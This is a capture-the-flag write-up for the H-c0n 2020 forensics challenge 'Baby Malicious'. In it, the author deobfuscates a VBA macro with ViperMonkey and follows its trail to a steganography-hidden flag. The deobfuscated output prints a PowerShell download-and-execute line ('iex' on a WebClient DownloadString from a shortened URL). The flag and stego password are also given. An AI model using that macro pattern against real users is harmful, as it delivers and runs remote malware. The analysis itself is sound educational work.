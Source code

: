 # Forensics
## Baby Malicious

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/title.png)

I never worked before or heard about **.vba** files, so I started checking the type and format

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/file.png)

As I saw that is an ASCII text, I decided to open the file with **cat**

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/cat.png)

The first impresion was that the text was encrypted, so I searched about [Obfuscation](https://en.wikipedia.org/wiki/Obfuscation_(software)) and I found something perfect for this ocasion.

A tool called [ViperMonkey](https://github.com/decalage2/ViperMonkey).

ViperMonkey is a VBA Emulation engine written in Python, designed to analyze and deobfuscate malicious VBA Macros contained in Microsoft Office files (Word, Excel, PowerPoint, Publisher, etc).

After using the tool I saw the following:

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/vmonkey.png)

There are 3 interesting function calls:

1. | CreateObject      | ['WScript.Shell']         |
2. | Run               | ["powershell.exe -NoLogogoiex ((New-Object Net.WebClient).D0wnloadString('https://bit.ly/2NgCC0O'))",0]
3. | Run               | ly/2NgCC0O'))             |

The next step was visit the url: *https://bit.ly/2NgCC0O*

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/dios.png)

I thought that this is only the first part of the challenge and some stego was involucred, so I took a look at the next parameter of the macro.

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/bps.png)

[BPStegano](https://github.com/TapanSoni/BPStegano) is a steganography tool created by students at Rowan University for their graduate cryptography class. 

Once we use the tool with the image found giving **SALCHICHON** as a password, we get the flag

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/decode.png)

## Flag

H-c0n{5619b327cc5ecce85a7fc99a14a6c5c5}

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/complete.png)
